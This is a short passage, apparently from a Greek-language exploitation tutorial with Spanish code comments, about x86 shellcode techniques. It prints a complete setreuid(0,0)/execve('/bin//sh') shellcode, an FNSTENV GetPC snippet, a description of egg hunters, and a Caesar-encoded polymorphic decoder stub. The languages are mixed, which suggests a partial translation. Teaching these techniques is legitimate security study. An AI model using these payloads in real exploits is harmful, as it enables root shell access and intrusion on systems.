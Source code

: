 ```
global _start
_start:
xor                  eax, eax                     ;Limpieza
mov                al, 0x46                      ; Syscall 70
xor                  ebx, ebx                     ; arg1 = 0
xor                  ecx, ecx                     ; arg2 = 0
int                    0x80                           ; setreuid(0,0)
xor                  eax, eax                     ; eax = 0
push   eax                             ; “\0”
push               dword 0x68732f2f ; “//sh”
push               dword 0x6e69622f; “/bin”
mov                ebx, esp                     ; arg1 = “/bin//sh\0”
push               eax                             ; Null -> args[1]
push               ebx                             ; “/bin/sh\0” -> args[0]
mov                ecx, esp                     ; arg2 = args[]
mov                al, 0x0b                      ; Syscall 11
int                    0x80                           ; excve(“/bin/sh”, args[“/bin/sh”, “NULL”], NULL)
```
**EJ FNSTENV:**
```
fabs
fnstenv [esp-0x0c]
pop eax                     ; Guarda el EIP en el que se ejecutó fabs
…
```
**Egg Huter:**

Αποτελείται από έναν μικρό κώδικα που διασχίζει τις σελίδες μνήμης που σχετίζονται με μια διαδικασία αναζητώντας τη shellcode που είναι αποθηκευμένη εκεί (αναζητά κάποια υπογραφή που έχει τοποθετηθεί στη shellcode). Χρήσιμο σε περιπτώσεις όπου υπάρχει μόνο ένας μικρός χώρος για την έγχυση κώδικα.

**Shellcodes polimórficos**

Αποτελούνται από κωδικοποιημένα shells που έχουν έναν μικρό κώδικα που τα αποκωδικοποιεί και πηδά σε αυτόν, χρησιμοποιώντας το κόλπο Call-Pop αυτό θα ήταν ένα **παράδειγμα κωδικοποιημένο cesar**:
```
global _start
_start:
jmp short magic
init:
pop     esi
xor      ecx, ecx
mov    cl,0                              ; Hay que sustituir el 0 por la longitud del shellcode (es lo que recorrerá)
desc:
sub     byte[esi + ecx -1], 0 ; Hay que sustituir el 0 por la cantidad de bytes a restar (cifrado cesar)
sub     cl, 1
jnz       desc
jmp     short sc
magic:
call init
sc:
;Aquí va el shellcode
```
## **5. Συμπληρωματικές μέθοδοι**
